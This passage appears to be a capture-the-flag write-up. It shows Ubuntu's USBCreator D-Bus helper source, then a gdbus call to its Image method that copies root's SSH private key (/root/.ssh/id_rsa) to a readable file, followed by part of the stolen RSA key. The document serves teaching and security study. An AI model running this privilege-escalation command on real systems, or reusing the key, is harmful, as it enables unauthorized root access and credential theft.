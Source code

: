 ```

    @dbus.service.method(USBCREATOR_IFACE, in_signature='', out_signature='',
                         sender_keyword='sender', connection_keyword='conn')
    def Shutdown(self, sender=None, conn=None):
        logging.debug('Shutting down.')
        loop.quit()

    # Taken from Jockey 0.5.3.
    def check_polkit(self, sender, conn, priv):
        if sender is None and conn is None:
            return
        if self.dbus_info is None:
            self.dbus_info = dbus.Interface(conn.get_object(
                                            'org.freedesktop.DBus',
                                            '/org/freedesktop/DBus/Bus',
                                            False), 'org.freedesktop.DBus')
        pid = self.dbus_info.GetConnectionUnixProcessID(sender)
        if self.polkit is None:
            self.polkit = dbus.Interface(dbus.SystemBus().get_object(
                                'org.freedesktop.PolicyKit1',
                                '/org/freedesktop/PolicyKit1/Authority',
                                False), 'org.freedesktop.PolicyKit1.Authority')
        try:
            # we don't need is_challenge return here, since we call with
            # AllowUserInteraction
            (is_auth, _, details) = self.polkit.CheckAuthorization(
                                    ('system-bus-name', {'name': dbus.String(sender,
                                        variant_level = 1)}), priv, {'': ''},
                                    dbus.UInt32(1), '', timeout=600)
        except dbus.DBusException as e:
            if e._dbus_error_name == 'org.freedesktop.DBus.Error.ServiceUnknown':
                # polkitd timed out, connect again
                self.polkit = None
                return self.check_polkit(sender, conn, priv)
            else:
                raise

        if not is_auth:
            logging.debug('_check_polkit_privilege: sender %s on connection %s '
                          'pid %i is not authorized for %s: %s' %
                          (sender, conn, pid, priv, str(details)))
            raise dbus.DBusException('com.ubuntu.USBCreator.Error.NotAuthorized')

DBusGMainLoop(set_as_default=True)
helper = USBCreator()
loop = GLib.MainLoop()
loop.run()
```
similr to the one in the blog and thus ran 
```gdbus call --system --dest com.ubuntu.USBCreator --object-path /com/ubuntu/USBCreator --method com.ubuntu.USBCreator.Image /root/.ssh/id_rsa /lol.txt true```
to get the id_rsa of root 
```
-----BEGIN RSA PRIVATE KEY-----
MIIEogIBAAKCAQEAth1mFSVw6Erdhv7qc+Z5KWQMPtwTsT9630uzpq5fBx/KKzqZ
B7G3ej77MN35+ULlwMcpoumayWK4yZ/AiJBm6FEVBGSwjSMpOGcNXTL1TClGWbdE
+WNBT+30n0XJzi/JPhpoWhXM4OqYLCysX+/b0psF0jYLWy0MjqCjCl/muQtD6f2e
jc2JY1KMMIppoq5DwB/jJxq1+eooLMWVAo9MDNDmxDiw+uWRUe8nj9qFK2LRKfG6
U6wnyQ10ANXIdRIY0bzzhQYTMyH7o5/sjddrRGMDZFmOq6wHYN5sUU+sZDYD18Yg
ezdTw/BBiDMEPzZuCUlW57U+eX3uY+/Iffl+AwIDAQABAoIBACFJkF4vIMsk3AcP
0zTqHJ1nLyHSQjs0ujXUdXrzBmWb9u0d4djZMAtFNc7B1C4ufyZUgRTJFETZKaOY
8q1Dj7vJDklmSisSETfBBl1RsiqApN5DNHVNIiQE/6CZNgDdFTCnzQkiUPePic8R
P1St2AVP1qmMvVimDFSJoiOEUfzidepXEEUQrByNmOJDtewMSm4aGz60ced2XCBr
GTt/wyo0y5ygRJkUcC+/o4/r2DQdrjCbeuyzAzzhFKQQx6HN5svzpi0jOWC0cB0W